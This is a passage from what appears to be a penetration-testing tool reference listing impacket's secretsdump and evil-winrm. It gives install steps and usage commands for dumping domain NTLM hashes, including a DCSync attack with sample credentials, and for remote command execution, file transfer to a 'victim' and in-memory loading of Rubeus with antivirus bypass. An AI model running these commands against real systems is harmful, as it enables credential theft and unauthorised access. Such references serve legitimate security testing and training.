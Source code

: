 **Install:** 

```bash
python3 -m pip install impacket
```

**Usage:** 

```bash
# Extract NTLM hashes with local files
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# DCSync attack and dump the NTLM hashes of all domain users.
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
```

![image](https://user-images.githubusercontent.com/100603074/210266110-8f60d6e8-009a-4dea-9e33-8a712aeaf2ac.png)

*Image used from https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy*

### [🔙](#tool-list)[evil-winrm](https://github.com/Hackplayers/evil-winrm)

Evil-WinRM is a tool that provides a command line interface for Windows Remote Management (WinRM: *A service that allows administrators to remotely execute commands on a Windows machine*).

Evil-WinRM allows an attacker to remotely connect to a Windows machine using WinRM and execute arbitrary commands.

Some features include:

- Loading in memory Powershell scripts
- Loading in memory dll files bypassing some AVs
- Loading x64 payloads
- Pass-the-hash support
- Uploading and downloading local and remote files


**Install: (Git)** 

```bash
sudo gem install winrm winrm-fs stringio logger fileutils
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
```

**Install: (Ruby gem)** 

```bash
gem install evil-winrm
```

Alternative installation instructions can be found [here](https://github.com/Hackplayers/evil-winrm#installation--quick-start-4-methods).

**Usage:** 

```bash
# Connect to 192.168.1.100 as Administrator with custom exe/ps1 download folder locations
evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

# Upload local files to victim
upload local_filename
upload local_filename destination_filename

# Download remote files to local machine
download remote_filename
download remote_filename destination_filename

# Execute .Net assembly into victim memory
Invoke-Binary /opt/csharp/Rubeus.exe
```